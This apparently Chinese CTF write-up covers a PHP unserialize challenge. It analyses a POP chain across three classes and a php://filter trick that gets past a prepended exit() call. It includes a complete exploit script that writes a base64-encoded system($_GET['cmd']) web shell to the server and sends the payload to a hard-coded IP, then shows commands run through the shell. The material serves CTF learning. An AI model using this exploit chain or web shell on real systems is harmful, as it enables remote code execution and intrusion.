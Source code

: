 # 扩展题目-unser WriteUp

## 

### 1. 信息收集与题目分析

首先访问题目地址，查看源码：

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
Class FLAG{
    public $filename;
    public $content;
    public function __call($name,$arguments)
    {
        if(preg_match('/%|eval|exec|shell|system|passthru|assert|echo|print|`/i',$this->content))
        {
            die('feng不喜欢这些字符');
        }
        echo ("你该如何过死亡代码呢?");
        file_put_contents($this->filename,'<?php exit();'.$this->content);
    }
}
Class welcome{
    public $feng;
    public $you;
    public function __destruct()
    {
        if(isset($this->you)&&($this->you=='Welcome to join CTF web Team'))
        {
            echo "good";
            $this->feng->source;
        }
    }
    public function __invoke()
    {
        echo $this->feng;
    }
}
Class Geek{
    public $tou;
    public function __get($name)
    {
        $Challenge=$this->tou;
        return $Challenge();
    }
    public function __toString()
    {
        $this->tou->Getflag();
        return "Just do it";
    }
}
unserialize($_POST['data']);
?>
```

### 2. 代码分析

#### 2.1 程序入口点
- 程序通过 `unserialize($_POST['data'])` 接收POST数据并反序列化
- 这是典型的反序列化漏洞入口点

#### 2.2 类分析

**FLAG类**：
- 属性：`$filename` 和 `$content`
- 魔术方法：`__call($name, $arguments)`
- 功能：当调用不存在的方法时触发，会进行内容过滤并写入文件
- 关键点：`file_put_contents($this->filename, '<?php exit();'.$this->content)`

**welcome类**：
- 属性：`$feng` 和 `$you`
- 魔术方法：`__destruct()`
- 功能：对象销毁时触发，检查`$you`是否为指定字符串，然后访问`$feng->source`

**Geek类**：
- 属性：`$tou`
- 魔术方法：`__get($name)`
- 功能：访问不存在的属性时触发，会调用`$this->tou()`

### 3. 漏洞利用链分析

#### 3.1 魔术方法调用链
1. `welcome::__destruct()` - 对象销毁时触发
2. `$this->feng->source` - 访问Geek对象的source属性
3. `Geek::__get('source')` - source属性不存在，触发__get
4. `$Challenge()` - 调用`$this->tou`，即调用数组形式的回调函数
5. `FLAG::__call('source')` - FLAG对象没有source方法，触发__call

#### 3.2 利用链构造思路
```
welcome对象销毁 → 访问feng->source → Geek::__get → 调用tou() → FLAG::__call
```

### 4. 绕过死亡代码

#### 4.1 问题分析
FLAG类的`__call`方法会在文件内容前加上`<?php exit();`，这会导致我们的代码无法执行。

#### 4.2 绕过方法
使用PHP的伪协议过滤器：
```php
php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php
```

**原理**：
- `string.strip_tags`: 去除HTML和PHP标签
- `convert.base64-decode`: Base64解码
- `?>` 可以闭合前面的`<?php exit();`

### 5. 编写利用脚本

```php
<?php
/**
 * exploit.php
 * 
 * 用途：利用反序列化链＋php://filter 过滤器写入 shell.php，
 *       绕过死亡代码限制获取shell。
 */

// 1. 定义空壳类（与目标脚本中同名，保证序列化 class 名称一致）
class FLAG {
    public $filename;
    public $content;
}

class Geek {
    public $tou;
}

class welcome {
    public $feng;
    public $you;
}

// 2. 配置写入参数
// 使用 php://filter 过滤器绕过死亡代码
$filename = 'php://filter/write=string.strip_tags|convert.base64-decode/resource=shell.php';
// Base64 编码后的 "<?php system($_GET['cmd']);?>"，并在前面加上 "?>" 用于闭合死代码
$content  = '?>PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=';

// 3. 构造对象链
$flagObj = new FLAG();
$flagObj->filename = $filename;
$flagObj->content = $content;

$geekObj = new Geek();
$geekObj->tou = [$flagObj, 'source'];  // 可调用数组，会触发 FLAG::__call('source')

$welcomeObj = new welcome();
$welcomeObj->feng = $geekObj;
$welcomeObj->you = 'Welcome to join CTF web Team';  // 必须是这个字符串

// 4. 序列化
$payload = serialize($welcomeObj);

// 5. 发送 POST 请求到目标
$target = 'http://110.42.47.169:35601/';
$ch = curl_init($target);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, ['data' => $payload]);
$response = curl_exec($ch);
curl_close($ch);

// 6. 输出结果
echo "Payload 已发送。\n";
echo "响应内容：\n";
echo $response . "\n";
```

### 6. 利用过程详解

#### 6.1 执行流程
1. **反序列化触发**：服务器接收POST数据并反序列化welcome对象
2. **__destruct触发**：脚本执行结束时，welcome对象被销毁
3. **条件检查**：检查`$you`是否为`'Welcome to join CTF web Team'`
4. **属性访问**：访问`$feng->source`，由于source属性不存在，触发Geek的`__get`方法
5. **方法调用**：`__get`中调用`$this->tou()`，即`[$flagObj, 'source']()`
6. **__call触发**：FLAG对象没有source方法，触发`__call`方法
7. **文件写入**：`__call`方法执行文件写入操作

#### 6.2 关键技术点
- **PHP反序列化**：利用魔术方法构造调用链
- **伪协议过滤器**：绕过死亡代码限制
- **Base64编码**：绕过关键字过滤

### 7. 获取Shell

运行利用脚本后，访问：
```
http://110.42.47.169:35601/shell.php?cmd=ls
```

可以看到成功创建了shell.php文件，并能执行系统命令。

### 8. 获取Flag

通过shell执行命令查找flag：
```bash
# 查找flag文件
find / -name "flag*" 2>/dev/null

# 读取flag
cat /flag
```

**最终Flag**: `flag{Welcome_to_become_one_of_us}`

